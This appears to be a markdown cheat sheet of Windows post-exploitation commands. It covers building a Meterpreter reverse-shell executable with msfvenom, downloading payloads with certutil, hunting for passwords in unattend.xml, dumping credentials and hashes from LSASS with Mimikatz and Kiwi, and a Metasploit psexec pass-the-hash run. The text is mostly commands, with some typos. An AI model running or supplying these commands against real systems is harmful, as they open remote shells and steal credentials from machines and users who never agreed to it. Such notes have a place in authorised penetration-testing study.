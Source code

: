## Password in Windows Configuration Files 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > payload.exe

certutil -urlcache -f URL filename

```

```
search -f unattend.xml msfconsole
cd C:\\Windows\Panther\unattend.xml

psexec.py username@ip

```

## Dumping Hashes with MimiKatz
+ post exploitation tool
+ extract clear text password hashes and kerberos tickets from memory
+ mimikats exxtract hashes from the lsass.exe
+ Kiwi meterpreter or Mimikatz

```
pgrep lsass
migrate num
getuid
load kiwi
#creds_all
#lsa_dump_sam
#lsa_dump_secrets
```

```
./mimikatz.exe
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa:logonpasswords
 
```

## Pass the Hash
+ exploitation involves capturing or harvesting NTLM hashes or clear text passwrod to authenticate
+ tools cracmapexec and psexec

```
hashdump
copy hash
windows/smb/psexec
set LHOST
set RPORT
set SMBUsers
set SMBPass
set target # try command or Native\ upload
exploit
 
```
